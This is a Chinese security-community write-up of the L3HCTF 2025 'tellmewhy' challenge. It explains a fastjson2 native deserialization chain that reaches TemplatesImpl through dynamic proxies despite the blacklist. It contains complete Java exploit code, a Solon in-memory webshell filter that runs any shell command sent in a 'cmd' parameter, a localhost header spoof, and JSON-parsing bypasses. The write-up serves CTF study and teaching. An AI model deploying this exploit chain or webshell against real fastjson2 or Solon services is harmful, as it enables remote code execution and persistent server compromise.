# 2025L3HCTF-tellmewhy详解-先知社区

> **来源**: https://xz.aliyun.com/news/18467  
> **文章ID**: 18467

---

# 简介

众所周知，在2.0.26以前有一条仅依赖fastjson的原生反序列化链，核心是Fastjson中的JsonArray类，该类被调用toString方法时，可遍历调用其元素的任意公开getter方法，从而触发TemplatesImpl#getOutputProperties方法，加载字节码完成代码执行。

而到了2.0.27后，TemplatesImpl被加入了黑名单，同时在黑名单中的类不会被调用getter方法，因此该链子无法再被直接利用。

虽然TemplatesImpl被禁用了，但其继承了Templates这个接口



同时Templates接口还定义了getOutputProperties方法



由于 Fastjson 的黑名单仅拦截TemplatesImpl类的方法调用，而对代理Templates接口的代理类无限制，因此代理对象的方法调用不会被拦截，最终成功绕开黑名单。

也就是说我们可以利用代理对象通过InvocationHandler将方法调用转发到被黑名单限制的TemplatesImpl实例上，间接触发TemplatesImpl#getOutputProperties方法。

## 反序列化触发toString链

触发JsonArray.toString可以有下面这几种

第一种、Xstring链

```
Hashmap#readobject --> 
    XString#equals --> 
        JSONArray.toString
```

或者HotSwappableTargetSource#equals链

```
HashMap#readObject -> 
    HotSwappableTargetSource#equals -> 
        XString#equals -> 
            JSONArray.toString
```

第二种、BadAttributeValueExpException链

```
BadAttributeValueExpException#readObject --> 
    JSONArray#toString
```

第三种、EventListenerList链

```
EventListenerList#readobject --> 
    UndoManager#toString -->
        Vector#toString -->
            JSONArray#toString
```

第四种、TextAndMnemonicHashMap链

```
hashmap#readObject-->
    HashMap#putVal-->
        AbstractMap#equals-->
            TextAndMnemonicHashMap#get-->
                JSONArray#toString
```

## 动态代理绕高版本fastjson

那么接下来我们要思考的就是如何利用了动态代理来实现TemplatesImpl.getOutputProperties去加载我们的恶意字节码



这里我们注意到ObjectFactoryDelegatingInvocationHandler的代码，

在invoke方法里面，如果方法的名字不是equals、hashCode、toString的话，

他就会尝试去利用objectFactory.getObject()方法获取一个对象，然后method.invoke调用该对象的方法。

也有反射调用方法的能力，不同之处在于反射对象是通过objectFactory.getObject()提供的。



JSONObject的invoke方法有点长了，省略了一些不重要的条件判断

可以看到，invoke方法先是获取被调用方法的名称、被调用方法的参数个数（单参数/无参数）、被调用方法的返回类型，

最后这个方法返回了value，也就是我们需要的指定对象com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl

调用栈如下

```
invoke:292, AutowireUtils$ObjectFactoryDelegatingInvocationHandler (org.springframework.beans.factory.support)
getOutputProperties:-1, $Proxy2 (com.sun.proxy)
write:-1, OWG_1_1_$Proxy2 (com.alibaba.fastjson2.writer)
write:3124, JSONWriterUTF16 (com.alibaba.fastjson2)
toString:914, JSONArray (com.alibaba.fastjson2)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
readObject:1396, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
deserialize:53, Util (common)
runGadgets:38, Util (common)
main:33, Fastjson4_ObjectFactoryDelegatingInvocationHandler
```

## 编写poc


回到我们的题目

现在知道"javax.management.BadAttributeValueExpException", "javax.swing.event.EventListenerList", "javax.swing.UIDefaults$TextAndMnemonicHashMap"  
这三个类都被过滤了，

因此我们可以选Xstring链作为我们调用JsonArray.toString的开始

```
Hashmap#readobject --> 
    XString#equals --> 
        JSONArray.toString
```

本题目是solon框架的，所以是没有org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler  
但是题目贴心的给出了MyProxy代理类和MyObject这个接口

你会发现题目中的MyProxy代理类的作用跟ObjectFactoryDelegatingInvocationHandler实则是一样的



原链中的ObjectFactory.class跟题目中的MyObject接口也是一样的





那么我们只需在下面这个下面中，创建一个新类改动一点即可  
<https://github.com/Ape1ron/FastjsonInDeserializationDemo1>

下面是完整的EXP

```
import com.alibaba.fastjson2.JSONArray;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javax.naming.spi.ObjectFactory;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Exp {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Repository.lookupClass(TestTemplatesImpl.class).getBytes();
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates, "_name", "1");
        setFieldValue(templates, "_tfactory", null);
        Map map = new HashMap();
        map.put("object", templates);
        Object node2 = makeGadget("com.alibaba.fastjson2.JSONObject", Map.class,map);
        Proxy proxy1 = (Proxy) Proxy.newProxyInstance(Thread.currentThread().getContextClassLoader(),
                new Class[]{ObjectFactory.class, MyObject.class}, (InvocationHandler) node2);

        Object node3 = makeGadget("org.example.demo.Utils.MyProxy",MyObject.class,proxy1);
        Proxy proxy2 = (Proxy) Proxy.newProxyInstance(Proxy.class.getClassLoader(),
                new Class[]{Templates.class}, (InvocationHandler) node3);
        JSONArray jsonArray1 = new JSONArray();
        jsonArray1.add(proxy2);

        Map gadgetChain = makeXStringToStringTrigger(jsonArray1);

        HashMap hashMap = new HashMap();
        hashMap.put(templates,gadgetChain);
        byte[] serialize = serialize(hashMap);
        String s = Base64.getEncoder().encodeToString(serialize);
        System.out.println(s);
        System.out.println(s.length());
        deserialize(serialize);
    }
    public static Object makeGadget(String className,Class parType,Object gadget) throws Exception {

        Class clazz = Class.forName(className);
        Constructor constructor = clazz.getDeclaredConstructor(parType);
        constructor.setAccessible(true);
        return constructor.newInstance(gadget);
    }

    public static Map makeXStringToStringTrigger(Object o) throws Exception {
        XString x = new XString("
");

        return makeMap(o, x);
    }
    public static Map makeMap(Object v1, Object v2) throws Exception {
        Map map1 = new HashMap();
        map1.put("yy", v1);
        map1.put("zZ", v2);

        Map map2 = new HashMap();
        map2.put("yy", v2);
        map2.put("zZ", v1);


        HashMap s = new HashMap();
        setFieldValue(s, "size", 2);
        Class nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, map1, map1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, map2, map2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
    public static byte[] serialize(final Object obj) throws IOException {
        System.out.println("serialize obj:  "+ obj.getClass().getName());
        final ByteArrayOutputStream out = new ByteArrayOutputStream();
        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        objOut.writeObject(obj);
        return out.toByteArray();
    }

    public static Object deserialize(byte[] ser) throws IOException, ClassNotFoundException {
        System.out.println("deserialize obj");
        final ByteArrayInputStream in = new ByteArrayInputStream(ser);
        final ObjectInputStream objIn = new ObjectInputStream(in);
        return objIn.readObject();
    }
}
```

由于环境不出网，要打solon框架内存马

TestTemplatesImpl.class为

```
package org.example.demo.Utils;
import org.noear.solon.annotation.Component;
import org.noear.solon.core.ChainManager;
import org.noear.solon.core.handle.Context;
import org.noear.solon.core.handle.Filter;
import org.noear.solon.core.handle.FilterChain;
import java.lang.reflect.Field;
@Component
public class TestTemplatesImpl implements Filter {
    static {
        try {
            Context ctx = Context.current();
            Object obj = ctx.request();
            Field field = obj.getClass().getSuperclass().getDeclaredField("request");
            field.setAccessible(true);
            obj = field.get(obj);
            field = obj.getClass().getDeclaredField("serverHandler");
            field.setAccessible(true);
            obj = field.get(obj);
            field = obj.getClass().getDeclaredField("handler");
            field.setAccessible(true);
            obj = field.get(obj);
            field = obj.getClass().getDeclaredField("arg$1");
            field.setAccessible(true);
            obj = field.get(obj);
            field = obj.getClass().getSuperclass().getDeclaredField("_chainManager");
            field.setAccessible(true);
            obj = field.get(obj);
            ChainManager chainManager = (ChainManager) obj;
            chainManager.addFilter(new TestTemplatesImpl(), 0);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    @Override
    public void doFilter(Context ctx, FilterChain chain) throws Throwable {
        try{
            if(ctx.param("cmd")!=null){
                String str = ctx.param("cmd");
                try{
                    String[] cmds =
                            System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe",
                                    "/c", str} : new String[]{"/bin/bash", "-c", str};
                    String output = (new java.util.Scanner((new
                            ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\A").next();
                    ctx.output(output);
                }catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }catch (Throwable e){
            System.out.println("异常："+e.getMessage()) ;
        }
        chain.doFilter(ctx);
    }
}
```

当然在反序列化之前还有一个if条件绕过和X-Real-Ip: localhost的本地请求头伪造绕过

解析json数据





新建一个hashmap

然后看开头是不是以{



然后读下一个字符"  
然后再读一个"  
然后在这两个双引号之间的字符都读取出来，作为键

但是jsonObject.length实际上也是调用map.size



注意这个json不是fastjson

但是利用的点还是找map和org.json.JSONObject解析json的差异

org.json.JSONObject遇到逗号和分号的处理方式是相同的



```
{
    "why": "base64序列化数据",
    "test1": undefined;
    undefined: NaN
}
```

实际上利用@type也是可以进行一个绕过的

```
{"@type": "java.util.HashMap","why":"base64 payload"}
```

打入内存马后即可成功命令执行



# 拓展：

实际上触发toString还有一种方法

链子如下

```
javax.swing.AbstractAction#readObject -> 
    javax.swing.AbstractAction#putValue ->
        javax.swing.AbstractAction#firePropertyChange -> 
            java.lang.Object#equals
```

## writeObject

在alignmentActioin初始化时，子类的构造函数会不断调用父类的构造函数，一直到达AbstractAction，进行一次putValue操作，



Action.NAME为固定的Name，name为我们的第一参数，进入putValue



上面会进行一系列的table创建，判断是否存在键值等等操作，由于是新参数，所以将其put进arrayTable中

使用alignmentAction.putValue，将恶意键值也添加进arrayTable中





最后在序列化时，进入ArrayTable.writeArrayTable



会先将键值对的数量写入，我们一共存入了3对，接着把键与值依次写入结束



## readObject

接着是反序列化



readObject时，会先读取键值对的次数，并且进行putValue调用读取的键值对



我们通过16进制编辑器修改serialize生成的字节码，将jsonArray对应的key2改成了key1

